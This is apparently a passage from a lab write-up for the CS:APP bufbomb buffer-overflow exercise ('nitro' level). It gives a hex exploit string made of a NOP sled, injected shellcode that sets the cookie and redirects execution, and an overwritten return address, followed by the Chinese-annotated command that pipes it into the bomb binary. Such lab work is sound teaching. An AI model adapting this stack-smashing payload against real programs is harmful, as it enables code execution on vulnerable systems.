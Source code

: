 ```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 b8
1b fe f6 51 68 3d 12 40 00 c3
40 3b 68 55 0A
```

注意，在最后添加了一个`\n`即`0A`以结束每一次的输入。

这一次的命令是 `cat ./answers/nitro.txt | ./hex2raw -n | ./bufbomb -n -u 1160300202`